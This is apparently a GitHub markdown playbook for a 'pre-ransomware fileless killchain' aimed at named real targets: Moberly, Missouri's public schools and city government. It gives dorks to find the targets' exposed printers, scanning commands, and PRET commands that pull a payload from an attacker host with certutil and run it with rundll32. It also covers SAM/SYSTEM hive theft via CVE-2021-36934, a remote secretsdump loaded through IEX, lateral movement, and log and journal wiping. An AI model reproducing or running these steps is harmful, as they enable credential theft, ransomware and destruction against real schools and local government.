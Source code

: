 
# 🧨 Pre-Ransomware Fileless Killchain – Target: Moberly, Missouri

## 🔹 Step 1: Recon via Google Dorks
```text
inurl:"/hp/device/this.LCDispatcher" "Moberly"
intitle:"Printer Status" "Moberly Public Schools"
intitle:"Web Image Monitor" inurl:"/wim" "Moberly"
inurl:"/printer/main.html" "City of Moberly"
intitle:"Web JetAdmin" inurl:hp "Moberly"
```

## 🔹 Step 2: Fingerprint Targets
```bash
nmap -Pn -p 80,443,515,631,9100 --script=http-title,snmp-info <IP>
snmpwalk -v1 -c public <IP>
```

## 🔹 Step 3: Upload Fileless Payload via PRET or Raw Socket
```bash
python pret.py <printer-ip> -q
pret> exec "certutil -urlcache -split -f http://attacker-ip/nsfw.jpg C:\Windows\Temp\nsfw.jpg"
pret> exec "rundll32 C:\Windows\Temp\nsfw.jpg,#1"
```

## 🔹 Step 4: Exploit CVE-2021-36934
```powershell
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" "$env:TEMP\SAM"
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" "$env:TEMP\SYSTEM"
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY" "$env:TEMP\SECURITY"
```

## 🔹 Step 5: Dump Hashes Filelessly
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://attacker-ip/secretsdump.ps1")
Invoke-SecretsDump -System $system -Security $security -Sam $sam
```

## 🔹 Step 6: Lateral Movement
```powershell
Invoke-Command -ScriptBlock { rundll32.exe \\attacker\share\nsfw.dll,#1 } -ComputerName 192.168.X.X -Credential $cred
```

## 🔹 Step 7: Log Wipe + Destruction
```cmd
wevtutil cl Security & wevtutil cl Application & fsutil usn deletejournal /D C:
```

## 🧬 Optional Dummy Target
```bash
docker run -d -p 631:631 --name fake_printer ghcr.io/simulated-systems/ipp-printer:latest
```

## 📌 MITRE Mapping
Recon: T1595.002 | Initial Access: T1105 | Execution: T1218.011 |
Priv Esc: T1068 | Cred Access: T1003.002 | Lateral Move: T1021.001 |
Evade: T1070.001 | Impact: T1486
